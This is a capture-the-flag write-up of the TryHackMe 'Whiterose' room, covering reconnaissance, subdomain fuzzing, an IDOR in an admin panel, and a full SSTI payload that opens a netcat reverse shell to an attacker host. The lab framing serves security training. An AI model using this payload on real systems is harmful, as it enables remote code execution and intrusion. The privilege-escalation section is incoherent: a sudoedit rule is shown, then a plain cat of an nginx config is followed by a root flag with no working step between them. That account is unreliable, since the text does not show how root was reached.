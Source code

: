 # Write-up — Whiterose🤍 ([TryHackMe Room](https://tryhackme.com/room/whiterose))

# Introduction
In this room, [Whiterose](https://tryhackme.com/room/whiterose) from TryHackMe, we’re tasked with breaking into a simulated bank environment by exploring subdomains, bypassing authentication, and exploiting a vulnerable admin panel. The room combines reconnaissance, web exploitation, and privilege escalation techniques. This write-up will walk through each step taken to gain full system access and retrieve both user and root flags.
## Reconnaissance
We begin by adding the target domain to our /etc/hosts file:
```python
sudo nano /etc/hosts
10.10.10.10 cyprusbank.thm
```
Next, perform a full port scan using Nmap:
```python
nmap -sC -sV -p- -T4 cyprusbank.thm
```
Open ports:
```python
22 - SSH (OpenSSH 7.6p1)
80 - HTTP (nginx 1.14.0)
```
The web server on port 80 didn’t reveal much via directory enumeration:
```python
gobuster dir -u http://cyprusbank.thm -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```
## Subdomain Enumeration
We used ffuf to look for subdomains:
```python
ffuf -u http://cyprusbank.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cyprusbank.thm" -fw 1
```
Found:
```python
www.cyprusbank.thm
admin.cyprusbank.thm
```
We then added the new subdomain to /etc/hosts:
```python
10.10.10.10 admin.cyprusbank.thm
```
## Login Bypass and Enumeration
Using credentials provided in the room (Olivia Cortez:olivi8), we accessed the admin panel and found an interesting URL parameter in the Messages section:
```python
http://admin.cyprusbank.thm/messages/?c=5
```
Changing the parameter to c=0 triggered an IDOR vulnerability, revealing a hidden message where Gayle Bev shares her password with the dev team.

We then logged in as Gayle Bev and gained access to Settings, where a form was vulnerable to SSTI (Server-Side Template Injection).

## Getting a Shell (SSTI Exploitation)
Using Burp Suite and the Repeater, we injected the following payload:
```python
name=test&password=1234&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.10.10 4444 -e bash');s
```
Once triggered, this gave us a reverse shell as the web user.

User Flag:
```python
cat user.txt
THM{***********}
```
## Privilege Escalation
```python
sudo -l
(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
We simply read the file using:

```python
cat /etc/nginx/sites-available/admin.cyprusbank.thm
```
Root Flag:
```python
THM{********}
```
# Conclusion

This challenge was a great mix of real-world web exploitation techniques such as IDOR and SSTI, coupled with basic privilege escalation through misconfigured sudoedit. It reinforces the importance of secure web development practices and careful privilege delegation in Linux environments. Overall, a solid room for sharpening reconnaissance and post-exploitation skills.
